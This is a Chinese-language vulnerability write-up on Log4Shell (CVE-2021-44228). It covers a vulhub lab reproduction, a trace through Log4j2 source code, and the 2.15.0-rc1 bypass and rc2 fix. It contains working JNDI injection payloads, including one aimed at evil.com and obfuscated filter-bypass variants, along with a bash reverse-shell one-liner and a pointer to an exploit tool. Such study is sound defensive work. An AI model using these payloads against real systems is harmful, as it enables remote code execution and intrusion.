# 0x01漏洞描述

## Log4j2一句话

Log4j2是java中一个流行的日志组件，被各类Java框架广泛地使用，可以在服务中记录日志消息，提供了多种方式来记录和处理日志数据，使开发人员可以轻松的生成和管理大量日志信息。它的前身是Log4j，Log4j2重新构建和设计了框架，可以认为两者是完全独立的两个日志组件，但是因为存在前身Log4j，而且都是Apache下的项目，不管是jar包名称还是package名称，看起来都很相似

## Log4j2的Lookup

Log4j2的Lookup允许在日志配置和日志消息中动态插入变量值，这些变量可以是外部环境变量，也可以是MDC中的变量，还可以是日志上下文数据等。

格式类似`"${type:var}"`，即可以实现对变量var的引用。type可以是如下值：

1. ctx：允许程序将数据存储在 Log4j `ThreadContext`Map 中，然后在日志输出过程中，查找其中的值。
2. env：允许系统在全局文件（如 /etc/profile）或应用程序的启动脚本中配置环境变量，然后在日志输出过程中，查找这些变量。例如：`${env:USER}`。
3. java：允许查找Java环境配置信息。例如：`${java:version}`。
4. jndi：允许通过 JNDI 检索变量。

这次漏洞就跟jndi有关，我们接下来了解一下漏洞成因

## 漏洞成因

由于Log4j2 的 Lookup查询服务未对解析内容进行严格的限制，具体表现在JNDI 支持并没有限制可以解析的名称。一些协议像rmi:和ldap:是不安全的或者可以允许远程代码执行。攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

**`rmi:` 协议**

- **RMI（Remote Method Invocation）** 是 Java 提供的远程方法调用机制，允许一个 Java 虚拟机（JVM）调用另一个 JVM 上的对象方法。
- 在 Log4j2 漏洞中，攻击者可以通过 `rmi:` 协议指向一个恶意的 RMI 服务器，从而触发远程代码执行。

**`ldap:` 协议**

- **LDAP（Lightweight Directory Access Protocol）** 是一种用于访问目录服务的协议，常用于企业中的身份验证和资源管理。
- 在 Log4j2 漏洞中，攻击者可以通过 `ldap:` 协议指向一个恶意的 LDAP 服务器，返回一个恶意类或序列化对象，从而触发远程代码执行。

我们举个例子

```
${jndi:ldap://127.0.0.1/shell}
```

当我们传入这个字符串的时候，log4j2组件就会将信息记录到日志中，并且log4j2会尝试解析这些信息，通过jndi的lookup()方法去解析该URL：`ldap://127.0.0.1/shell`，由于是ldap协议，所以就会去该地址下的ldap服务中寻找名为shell的资源，找到后将资源信息返回给组件，之后log4j2组件就会下载下来，假如我们的shell文件的一个恶意的.class文件，那就会执行里面的代码，从而造成注入

## 影响版本

Apache Log4j 2 的 2.0 到 2.14.1

# 0x02环境搭建&漏洞复现

vulhub靶场有现成的环境

```
cd vulhub/log4j/CVE-2021-44228/
docker-compose up -d
```

使用vulhub靶场，启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1

起环境后访问8983端口



然后我们对网站进行测试，用一个dns服务器起一个域名，这里我用yakit的dns服务器




```
${jndi:ldap://wsythhvyqt.dgrh3.cn}
```

利用JNDI发送DNS请求的Payload，并且在dns服务器上成功收到回显

然后就是漏洞利用了

使用JNDI注入工具

```
工具地址：https://github.com/welk1n/JNDI-Injection-Exploit
```

然后我们构造反弹shell

```
bash -i >& /dev/tcp/vps.ip/port 0>&1
```

然后用工具进行注入



我这里版本是jdk1.8的，所以直接传就行，然后监听端口就可以收到了



到此靶场的复现就完成了

# 0x03关键代码分析

pom.xml中添加Log4j的依赖

```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.8.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.8.1</version>
        </dependency>
```

问ai写个用来调试的漏洞代码

```java
package SerializeChains.Log4j2POC;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Demo {

    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(Demo.class);
        String userInput = "${jndi:ldap://127.0.0.1:1389/Exploit}";

        logger.error(userInput);

        System.out.println("Program finished");
    }
}

```

打上断点后步入，首先来到关键代码org.apache.logging.log4j.core.layout.PatternLayout.PatternSerializer#toSerializable(org.apache.logging.log4j.core.LogEvent, java.lang.StringBuilder)

## PatternSerializer#toSerializable()

```java
        public StringBuilder toSerializable(final LogEvent event, final StringBuilder buffer) {
            final int len = formatters.length;
            for (int i = 0; i < len; i++) {
                formatters[i].format(event, buffer);
            }
            if (replace != null) { // creates temporary objects
                String str = buffer.toString();
                str = replace.format(str);
                buffer.setLength(0);
                buffer.append(str);
            }
            return buffer;
        }
```

这里是对每个事件日志进行格式化处理，跟进format函数直到来到org.apache.logging.log4j.core.pattern.MessagePatternConverter#format()

## MessagePatternConverter#format()

```java
    public void format(final LogEvent event, final StringBuilder toAppendTo) {
        final Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {

            final boolean doRender = textRenderer != null;
            final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

            final StringBuilderFormattable stringBuilderFormattable = (StringBuilderFormattable) msg;
            final int offset = workingBuilder.length();
            stringBuilderFormattable.formatTo(workingBuilder);

            // TODO can we optimize this?
            if (config != null && !noLookups) {
                for (int i = offset; i < workingBuilder.length() - 1; i++) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        final String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                    }
                }
            }
            if (doRender) {
                textRenderer.render(workingBuilder, toAppendTo);
            }
            return;
        }
        if (msg != null) {
            String result;
            if (msg instanceof MultiformatMessage) {
                result = ((MultiformatMessage) msg).getFormattedMessage(formats);
            } else {
                result = msg.getFormattedMessage();
            }
            if (result != null) {
                toAppendTo.append(config != null && result.contains("${")
                        ? config.getStrSubstitutor().replace(event, result) : result);
            } else {
                toAppendTo.append("null");
            }
        }
    }
```



这是负责处理日志消息的格式化和 JNDI 查找，我们主要看JNDI查找部分，会进行`$`以及`{`的匹配，随后会进入org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute(org.apache.logging.log4j.core.LogEvent, java.lang.StringBuilder, int, int, java.util.List<java.lang.String>)方法

```java
private int substitute(LogEvent event, StringBuilder buf, int offset, int length, List<String> priorVariables) {
        StrMatcher prefixMatcher = this.getVariablePrefixMatcher();
        StrMatcher suffixMatcher = this.getVariableSuffixMatcher();
        char escape = this.getEscapeChar();
        StrMatcher valueDelimiterMatcher = this.getValueDelimiterMatcher();
        boolean substitutionInVariablesEnabled = this.isEnableSubstitutionInVariables();
        boolean top = priorVariables == null;
        boolean altered = false;
        int lengthChange = 0;
        char[] chars = this.getChars(buf);
        int bufEnd = offset + length;
        int pos = offset;

        while(pos < bufEnd) {
            int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
            if (startMatchLen == 0) {
                ++pos;
            } else if (pos > offset && chars[pos - 1] == escape) {
                buf.deleteCharAt(pos - 1);
                chars = this.getChars(buf);
                --lengthChange;
                altered = true;
                --bufEnd;
            } else {
                int startPos = pos;
                pos += startMatchLen;
                int endMatchLen = 0;
                int nestedVarCount = 0;

                while(pos < bufEnd) {
                    if (substitutionInVariablesEnabled && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
                        ++nestedVarCount;
                        pos += endMatchLen;
                    } else {
                        endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
                        if (endMatchLen == 0) {
                            ++pos;
                        } else {
                            if (nestedVarCount == 0) {
                                String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);
                                if (substitutionInVariablesEnabled) {
                                    StringBuilder bufName = new StringBuilder(varNameExpr);
                                    this.substitute(event, bufName, 0, bufName.length());
                                    varNameExpr = bufName.toString();
                                }

                                pos += endMatchLen;
                                String varName = varNameExpr;
                                String varDefaultValue = null;
                                if (valueDelimiterMatcher != null) {
                                    char[] varNameExprChars = varNameExpr.toCharArray();
                                    int valueDelimiterMatchLen = 0;

                                    for(int i = 0; i < varNameExprChars.length && (substitutionInVariablesEnabled || prefixMatcher.isMatch(varNameExprChars, i, i, varNameExprChars.length) == 0); ++i) {
                                        if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                            varName = varNameExpr.substring(0, i);
                                            varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                            break;
                                        }
                                    }
                                }

                                if (priorVariables == null) {
                                    priorVariables = new ArrayList();
                                    priorVariables.add(new String(chars, offset, length + lengthChange));
                                }

                                this.checkCyclicSubstitution(varName, priorVariables);
                                priorVariables.add(varName);
                                String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
                                if (varValue == null) {
                                    varValue = varDefaultValue;
                                }

                                if (varValue != null) {
                                    int varLen = varValue.length();
                                    buf.replace(startPos, pos, varValue);
                                    altered = true;
                                    int change = this.substitute(event, buf, startPos, varLen, priorVariables);
                                    change += varLen - (pos - startPos);
                                    pos += change;
                                    bufEnd += change;
                                    lengthChange += change;
                                    chars = this.getChars(buf);
                                }

                                priorVariables.remove(priorVariables.size() - 1);
                                break;
                            }

                            --nestedVarCount;
                            pos += endMatchLen;
                        }
                    }
                }
            }
        }

        if (top) {
            return altered ? 1 : 0;
        } else {
            return lengthChange;
        }
    }

```

代码很长，但其实就是对`${jndi:xxx}`这类表达式 通过递归和状态管理解决嵌套变量的问题，可以一步步看表达式的处理，处理好之后看到 resolveVariable 之后被执行（测试的yakitDNS服务器多了一个回显），跟进 resolveVariable后发现是lookup的调用

org.apache.logging.log4j.core.lookup.Interpolator#lookup()

## Interpolator#lookup()

```java
    @Override
    public String lookup(final LogEvent event, String var) {
        if (var == null) {
            return null;
        }

        final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
        if (prefixPos >= 0) {
            final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
            final String name = var.substring(prefixPos + 1);
            final StrLookup lookup = lookups.get(prefix);
            if (lookup instanceof ConfigurationAware) {
                ((ConfigurationAware) lookup).setConfiguration(configuration);
            }
            String value = null;
            if (lookup != null) {
                value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
            }

            if (value != null) {
                return value;
            }
            var = var.substring(prefixPos + 1);
        }
        if (defaultLookup != null) {
            return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
        }
        return null;
    }
```

这是一个lookup 分发器，根据传入的字符串的内容进行识别并分配正确处理的lookup



可以看到这里给派发的lookup是JndiLookup，然后来到org.apache.logging.log4j.core.lookup.JndiLookup#lookup中

## JndiLookup#lookup()

```java
    @Override
    public String lookup(final LogEvent event, final String key) {
        if (key == null) {
            return null;
        }
        final String jndiName = convertJndiName(key);
        try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
            final Object value = jndiManager.lookup(jndiName);
            return value == null ? null : String.valueOf(value);
        } catch (final NamingException e) {
            LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
            return null;
        }
    }
```

跟进jndiManager.lookup后就会发起远程请求，解析恶意类



函数调用栈

```java
at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:129)
at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:54)
at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:183)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1054)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:976)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:872)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:427)
at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:127)
at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:333)
at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:232)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:217)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:57)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:177)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:170)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:161)
at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:448)
at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:433)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:417)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:403)
at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:63)
at org.apache.logging.log4j.core.Logger.logMessage(Logger.java:146)
at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2091)
at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:1988)
at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1960)
at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:723)
at Demo.main(Demo.java:12)
```

# 0x04rc1的防护以及绕过

## rc1防护代码

其实从上面的代码分析不难看出，其主要的漏洞代码主要是对`${}`这类表达式进行的解析执行而并非简单的字符串拼接，而对于2.15.0rc1而言，默认配置下可以算作是安全的，其加载的类实例为`SimpleMessagePatternConverter`这个类只是简单的拼接Message信息，并不会去尝试解析`${`，所以根本不会有`lookup`操作。



而在漏洞版本里面的MessagePatternConverter类的format()方法



这样就能看出差别了

## 绕过原因和方法

参考：https://mp.weixin.qq.com/s/_qA3ZjbQrZl2vowikdPOIg

默认配置下rc1是没问题的，来到我们一开始的toSerializable



在初始化`formatter`列表的时候，如果开发这样配置的话


那么就会加载这个返回`LookupMessagePatternConverter`。

```java
result = new MessagePatternConverter.LookupMessagePatternConverter((MessagePatternConverter)result, config);
```



因此就存在了绕过的可能

后面就是跟上面的漏洞一样的思路了，但是官方在`log4j/core/net/JndiManager.class`类的`lookup`方法，加了白名单，很严格，需要绕过



那怎么绕过呢？

关注到这段关键代码




很明显如果前面的new URI发生错误的话就不会进入到检测当中，并且捕捉异常后也不抛出也不返回，仍然会继续执行代码。难道这就是开发的魅力吗哈哈哈哈

比如参数值带空格就会导致解析错误，应该还有其他的方法，导致解析出错，但是依然可以被正常请求，比如url足够长导致的截断等

## 绕过poc

```java
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

另外还有其他几个可以用来绕过的poc（偷了包师傅的）

```java
${${,:-j}ndi:ldap://127.0.0.1:1389/#Eval}
${jndi:ldap://127.0.0.1:1389/#Eval }
${${::-j}ndi:ldap://127.0.0.1:1389/#Eval}
```

## rc2防护代码

既然rc1出现了这样的问题，那么rc2就给出了答案



抛出异常并并且返回null，这样就能修复上面的uri绕过了

参考文章：

https://baozongwi.xyz/p/log4j2-deserialization-vuln

https://www.freebuf.com/vuls/316143.html

https://www.cnblogs.com/0dot7/p/17259327.html

https://mp.weixin.qq.com/s/XheO7skhvmO-_ygJAx6-cQ

https://mp.weixin.qq.com/s/_qA3ZjbQrZl2vowikdPOIg
